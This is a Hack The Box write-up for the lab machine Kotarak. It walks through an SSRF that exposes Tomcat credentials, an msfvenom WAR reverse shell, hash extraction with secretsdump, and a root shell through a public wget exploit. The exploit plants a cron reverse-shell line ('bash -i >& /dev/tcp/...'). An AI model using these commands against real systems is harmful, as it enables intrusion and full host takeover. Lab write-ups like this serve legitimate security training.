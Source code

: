 # HTB - Kotarak

#### Ip: 10.10.10.55
#### Name: Kotarak
#### Difficulty: Hard

----------------------------------------------------------------------

![Kotarak.png](../assets/kotarak_assets/Kotarak.png)

### Enumeration

I'll kick off enumerating this box with an Nmap scan covering all TCP ports. Here I'll also use the `sC` and `-sV` flags to use basic scripts and to enumerate versions

```text
┌──(ryan㉿kali)-[~/HTB/Kotarak]
└─$ sudo nmap -p-  --min-rate 10000 10.10.10.55 -sC -sV
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-05 10:20 CDT
Nmap scan report for 10.10.10.55
Host is up (0.073s latency).
Not shown: 65531 closed tcp ports (reset)
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e2d7ca0eb7cb0a51f72e75ea02241774 (RSA)
|   256 e8f1c0d37d9b4373ad373bcbe1648ee9 (ECDSA)
|_  256 6de926ad86022d68e1ebad66a06017b8 (ED25519)
8009/tcp  open  ajp13   Apache Jserv (Protocol v1.3)
| ajp-methods: 
|   Supported methods: GET HEAD POST PUT DELETE OPTIONS
|   Potentially risky methods: PUT DELETE
|_  See https://nmap.org/nsedoc/scripts/ajp-methods.html
8080/tcp  open  http    Apache Tomcat 8.5.5
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/8.5.5 - Error report
| http-methods: 
|_  Potentially risky methods: PUT DELETE
60000/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title:         Kotarak Web Hosting        
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 58.93 seconds
```

The Kotarak Web Hosting on port 60000 seems linteresting, lets check that out first:

site.png

Trying to enter www.hackthebox.com in the search box fowrards us to: http://10.10.10.55:60000/url.php?path=www.hackthebox.com%2F

But if we search for 10.10.10.55:22 we get the message `SSH-2.0-OpenSSH_7.2p2 Ubuntu-4ubuntu2.2 Protocol mismatch. ` So it does seem that the search feature is able to query ports on its localhost address. Lets see if there are any other ports open internally.

We can do this by fuzzing the site with a list of ports that may be open on localhost. I'll use wfuzz for this:

fuzz.png

Nice, looks like we have a few more ports to investigate now. After poking around a bit I found some interesting materials at http://10.10.10.55:60000/url.php?path=127.0.0.1%3A888

888.png

Now if we input http://127.0.0.1:888/?doc=backup into the search on port 60000 and inspect the page sorce we find credentials for the Tomcat service running on port 8080:

creds.png

Based on past experience with Tomcat I know the login can be found at 10.10.10.55:8080/manager/html

login.png

These credentials work and we can now authenticate to the site:

tomcat.png

### Exploitation

From here lets generate a .war reverse shell file to upload to the server:

```text
┌──(ryan㉿kali)-[~/HTB/Kotarak]
└─$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.48 LPORT=443 -f war > shell.war
Payload size: 1097 bytes
Final size of war file: 1097 bytes
```

We can upload the file and verify it loaded correctly:

file.png

Then with a NetCat listener listening, we can simply click on our shell file and catch the reverse shell back in NetCat:

```text
┌──(ryan㉿kali)-[~/HTB/Kotarak]
└─$ nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.14.48] from (UNKNOWN) [10.10.10.55] 35576
whoami
tomcat
hostname
kotarak-dmz
python -c 'import pty;pty.spawn("/bin/bash")'

tomcat@kotarak-dmz:/$
```

Trying to grab the user.txt flag from user atanas' home directory, we get a permission denied:

```text
tomcat@kotarak-dmz:/home$ ls
atanas	tomcat
tomcat@kotarak-dmz:/home$ cd atanas
tomcat@kotarak-dmz:/home/atanas$ ls
user.txt
tomcat@kotarak-dmz:/home/atanas$ cat user.txt
cat: user.txt: Permission denied
```

Looking around more we find an interesting directory called `pentest_data` which contain .dit and registry files:

```text
tomcat@kotarak-dmz:/home/tomcat/to_archive/pentest_data$ ls -la
total 28312
drwxr-xr-x 2 tomcat tomcat     4096 Jul 21  2017 .
drwxr-xr-x 3 tomcat tomcat     4096 Jul 21  2017 ..
-rw-r--r-- 1 tomcat tomcat 16793600 Jul 21  2017 20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit
-rw-r--r-- 1 tomcat tomcat 12189696 Jul 21  2017 20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin
```

Lets copy these back to our attacking machine.

First we'll set up a Python server on the target and then use wget on our attacking machine to retrieve the files:

wget.png

Now lets use impacket-secretsdump to extract some hashes

dump.png

Nice, we've found a few. Lets grab the Administrator and the atanas hash and crack them in CrackStation:

crack.png

Cool, that worked. Lets try to `su atanas` on the target:

```text
tomcat@kotarak-dmz:/home/atanas$ su atanas
Password: 
su: Authentication failure
tomcat@kotarak-dmz:/home/atanas$ su atanas
Password: 
atanas@kotarak-dmz:~$ whoami
atanas
```
Interestingly, the atanas password didn't work here, but the admin password did.

We can now grab the user.txt flag:

user_flag.png

### Privilege Escalation

Looking around the machine and not seeing much, I noticed we have read access to some files in the root directory. 

```text
atanas@kotarak-dmz:/root$ ls
app.log  flag.txt
atanas@kotarak-dmz:/root$ cat app.log
10.0.3.133 - - [20/Jul/2017:22:48:01 -0400] "GET /archive.tar.gz HTTP/1.1" 404 503 "-" "Wget/1.16 (linux-gnu)"
10.0.3.133 - - [20/Jul/2017:22:50:01 -0400] "GET /archive.tar.gz HTTP/1.1" 404 503 "-" "Wget/1.16 (linux-gnu)"
10.0.3.133 - - [20/Jul/2017:22:52:01 -0400] "GET /archive.tar.gz HTTP/1.1" 404 503 "-" "Wget/1.16 (linux-gnu)"
atanas@kotarak-dmz:/root$ cat flag.txt
Getting closer! But what you are looking for can't be found here.
```

Interesting, it appears IP address 10.0.3.33 is using wget to try and access a file every 2 minutes. This must be running as a cronjob.  

Looking at exploits for this version we find: https://www.exploit-db.com/exploits/40064


First we'll need to upadte the wget-exploit.py portion of the script to:

```text
HTTP_LISTEN_IP = '10.0.3.1'
HTTP_LISTEN_PORT = 80
FTP_HOST = '10.10.10.55'
FTP_PORT = 21

ROOT_CRON = "* * * * * root bash -c 'bash -i >& /dev/tcp/10.10.14.48/8888 0>&1' \n"
```

Next we'll want to get another working shell on the target ( I just ran the .war file again with another listener set up).

Now lets start an ftpserver on the target:

```text
atanas@kotarak-dmz:/tmp$ authbind python -m pyftpdlib -p21 -w
```

From here lets set up a python HTTP server on our attacking machine and use wget to grab the exploit onto the target machine, and then use authbind to run it:

```text
atanas@kotarak-dmz:/tmp/...$ wget 10.10.14.48/wget-exploit.py
--2023-09-05 14:58:28--  http://10.10.14.48/wget-exploit.py
Connecting to 10.10.14.48:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 2906 (2.8K) [text/x-python]
Saving to: ‘wget-exploit.py’

wget-exploit.py       0%[                    ]       0  --.-Kwget-exploit.py     100%[===================>]   2.84K  --.-KB/s    in 0s      

2023-09-05 14:58:29 (269 MB/s) - ‘wget-exploit.py’ saved [2906/2906]

atanas@kotarak-dmz:/tmp/...$ authbind python wget-exploit.py
```

With a listener set up on port 8888, we will eventually catch a shell back as the root user, and we can grab the final flag:

root_flag.png

Thanks for following along!

-Ryan
